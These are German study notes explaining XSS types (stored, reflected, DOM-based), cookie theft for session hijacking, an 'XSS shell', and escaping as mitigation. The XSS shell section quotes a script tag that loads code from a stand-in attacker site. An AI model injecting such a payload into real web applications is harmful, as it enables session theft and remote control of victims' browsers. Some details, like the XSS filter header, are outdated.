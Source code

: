 # Cross-Site Scripting (XSS)

## Stored XSS
- Angreifer kann auf Website Code platzieren, dass vom Victim bei Besuch ausgeführt wird
- Mit dem JS wird das Victim dazu gebracht, dem Angreifer die Session zu schicken
    - SOP verhindert das Senden per JS aber
    - Es wird aber z.B. ein Bild eingebunden mit dem Cookie im Parameter
    - Das Cookie landet im Access-Log des Angreifers
- Angreifer braucht Session selber (Session-Hijacking)

## Reflected XSS
- Angreifer schickt GET-Request mit JS in Query-Parameter
- Server sendet 404 mit Fehlermeldung, dass es die Seite nicht gibt, und reflektiert das JS zurück
- Wenn diese Anfrage vom Opfer ausgeführt wird, kann so beliebigs JS zur Ausführung gebracht werden

- Moderne Browser merken das JS in der URL und verhindern das Ausführen beim Reply (XSS-Filter)
- Server kann XSS-Filter auch enforcen (bei neuen Browsern) mit Header `X-XSS-Protection`

## DOM-Based XSS
- XSS im lokalen DOM ohne Server-Request
- JS-code wird im Anchor nach dem `#` angehängt, so wird sie nie dem Server übermittelt

## XSS Shell
- Angreifer injected `<script src="attacker-site/script.js"/>` auf Webapp
- Opfer führt Attacker-JS aus und pollt regelmässig den Attacker-Server
- So kann die Shell Befehle schicken, die vom Opfer abgeholt werden


## Mitigation
- HTML-Characters escapen
    - `<` in `&lt;` usw. umwandeln
    - In Praxis schwierig, das nicht gültige Zeichen wie `'` escaped werden
